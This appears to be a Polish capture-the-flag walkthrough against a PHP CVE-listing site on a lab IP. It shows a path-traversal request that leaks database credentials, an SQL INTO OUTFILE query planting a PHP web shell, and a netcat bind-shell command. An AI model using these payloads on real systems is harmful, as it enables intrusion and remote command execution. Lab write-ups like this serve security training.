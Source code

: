 ```php
<hr>
<?php
if(!isset($_GET['cve']))
{
    echo 'Please select the best CVE!';
}
else
{
    $cve = $db->real_escape_string((string)$_GET['cve']);
    $db->query("update cves set counter=counter+1 where cve='{$cve}'");
    echo "<h1 style=\"color:red\">{$cves[$cve]['name']}</h1>";
    echo file_get_contents('./cves/'.$cve);
}
?>
```
Widać, że server php komunikuje się z bazą danych używając pliku database.php. Sprawdźmy co jest w środku.
```
http://172.27.27.10/?cve=../../../../../../../../../../../../../../../../var/www/MyBestCVEs/database.php
```
Uzyskujemy
```php
<?php

$server = '172.27.27.10';
$username = 'manager';
$password = 'fyicvesareuselesshere';
$database = 'cves';

return new mysqli($server,$username,$password,$database);
```
Mamy hasło do bazy danych. Zatem logujemy się przy użyciu ```mysql```.

```bash
tutaj komenda mysql
```
Sprawdźmy czy możemy dodawać swoje pliki przez zapytania SQL.
```sql
SELECT "<?php echo system('id'); ?>" INTO OUTFILE "/var/www/MyBestCVEs/test";
```
Otrzymujemy odmowę dostępu. Najwyraźniej użytkownik nie ma prawa do zapisu. Po testowaniu różnych opcji okazuje się, że możemy pisać w folderze ```/var/www/MyBestCVEs/cves```. Skoro możemy dodawać swoje pliki to możemy też uploadować plik ```php``` a potem wejść na naszą 'stronę' przez przeglądarkę. Dodajmy więc wykonanie komendy z parametru ```?cmd=``` żądania GET na serwerze.

```sql
SELECT "<?php echo system($_GET['cmd']); ?>" INTO OUTFILE "/var/www/MyBestCVEs/cves/shell.php";
```
Potem wystarczy wykonać zapytanie z przeglądarki by wykonać komendę.

![7d93ba409dfacf054ef00bc56ab97102.png](_resources/7d93ba409dfacf054ef00bc56ab97102.png)

Skoro możemy wykonywać kod, to zestawmy shella. Okazuje się, że nie da się zestawić reverse shella, z jakiegoś powodu nie otrzymujemy żadnego żądania od ofiary. Spróbujmy bind shella.
Najpierw uruchamiamy nasłuch na ofierze.
```
http://172.27.27.10/cves/shell.php?cmd=nc%20-nlvp%208888%20-e%20/bin/sh
```
A potem łączymy się ```nc``` do ofiary.
```bash
nc $IP 8888
```
